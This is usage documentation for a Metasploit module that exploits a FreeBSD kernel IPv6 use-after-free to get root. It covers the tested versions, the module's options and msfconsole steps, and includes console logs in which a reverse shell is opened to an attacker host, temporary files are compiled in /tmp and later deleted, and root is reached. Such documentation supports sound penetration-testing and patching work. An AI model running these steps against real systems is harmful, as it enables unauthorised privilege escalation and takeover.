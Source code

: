 ## Vulnerable Application

This module exploits a race and use-after-free vulnerability in the
FreeBSD kernel IPv6 socket handling. A missing synchronization lock
in the `IPV6_2292PKTOPTIONS` option handling in `setsockopt` permits
racing `ip6_setpktopt` access to a freed `ip6_pktopts` struct.

This exploit overwrites the `ip6po_pktinfo` pointer of a `ip6_pktopts`
struct in freed memory to achieve arbitrary kernel read/write.

This module has been tested successfully on:

* FreeBSD 9.0-RELEASE #0 (amd64)
* FreeBSD 9.1-RELEASE #0 r243825 (amd64)
* FreeBSD 9.2-RELEASE #0 r255898 (amd64)
* FreeBSD 9.3-RELEASE #0 r268512 (amd64)
* FreeBSD 12.0-RELEASE r341666 (amd64)
* FreeBSD 12.1-RELEASE r354233 (amd64)


## Verification Steps

1. Start `msfconsole`
2. Get a session
3. `use exploit/freebsd/local/ip6_setpktopt_uaf_priv_esc`
4. `set SESSION <SESSION>`
5. `check`
6. `run`
7. You should get a new *root* session


## Options

### NUM_SPRAY

Spray iterations (default (`256`)

### NUM_SPRAY_RACE

Race iterations (default: `32`)

### ForceExploit

Override check result (default: `false`)

### WritableDir

A directory where we can write files (default: `/tmp`)


## Scenarios

### FreeBSD 9.3-RELEASE #0 r268512 (amd64)

```
msf5 > use exploit/freebsd/local/ip6_setpktopt_uaf_priv_esc
[*] Using configured payload bsd/x64/shell_reverse_tcp
msf5 exploit(freebsd/local/ip6_setpktopt_uaf_priv_esc) > set lhost 172.16.191.165
lhost => 172.16.191.165
msf5 exploit(freebsd/local/ip6_setpktopt_uaf_priv_esc) > set session 1
session => 1
msf5 exploit(freebsd/local/ip6_setpktopt_uaf_priv_esc) > run

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 172.16.191.165:4444
[*] Writing '/tmp/.SnZgWBMA.c' (14147 bytes) ...
[*] Compiling /tmp/.SnZgWBMA.c ...
[*] Writing '/tmp/.d97xapNItz' (218 bytes) ...
[*] Launching exploit (timeout: 30s) ...
[*] uid=0(root) gid=0(wheel) egid=1002(asdf) groups=1002(asdf)
[+] Success! Executing payload...
[*] Command shell session 2 opened (172.16.191.165:4444 -> 172.16.191.142:61848) at 2020-07-09 18:02:09 -0400
[+] Deleted /tmp/.SnZgWBMA.c
[+] Deleted /tmp/.SnZgWBMA
[+] Deleted /tmp/.d97xapNItz

id
uid=0(root) gid=0(wheel) egid=1002(asdf) groups=1002(asdf)
uname -a
FreeBSD freebsd-9-3-amd64 9.3-RELEASE FreeBSD 9.3-RELEASE #0 r268512: Thu Jul 10 23:44:39 UTC 2014     root@snap.freebsd.org:/usr/obj/usr/src/sys/GENERIC  amd64
```

### FreeBSD 12.1-RELEASE r354233 (amd64)

```
msf5 > use exploit/freebsd/local/ip6_setpktopt_uaf_priv_esc
[*] Using configured payload bsd/x64/shell_reverse_tcp
msf5 exploit(freebsd/local/ip6_setpktopt_uaf_priv_esc) > set lhost 172.16.191.165
lhost => 172.16.191.165
msf5 exploit(freebsd/local/ip6_setpktopt_uaf_priv_esc) > set session 1
session => 1
msf5 exploit(freebsd/local/ip6_setpktopt_uaf_priv_esc) > run

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 172.16.191.165:4444
[*] Writing '/tmp/.V8vZ5.c' (14162 bytes) ...
[*] Compiling /tmp/.V8vZ5.c ...
[*] Writing '/tmp/.ok9laPn' (218 bytes) ...
[*] Launching exploit (timeout: 30s) ...
[*] uid=0(root) gid=0(wheel) egid=1002(asdf) groups=1002(asdf)
[+] Success! Executing payload...
[*] Command shell session 2 opened (172.16.191.165:4444 -> 172.16.191.140:35808) at 2020-07-09 18:04:24 -0400
[+] Deleted /tmp/.V8vZ5.c
[+] Deleted /tmp/.V8vZ5
[+] Deleted /tmp/.ok9laPn

id
uid=0(root) gid=0(wheel) egid=1002(asdf) groups=1002(asdf)
uname -a
FreeBSD freebsd-12-1-amd64 12.1-RELEASE FreeBSD 12.1-RELEASE r354233 GENERIC  amd64
```

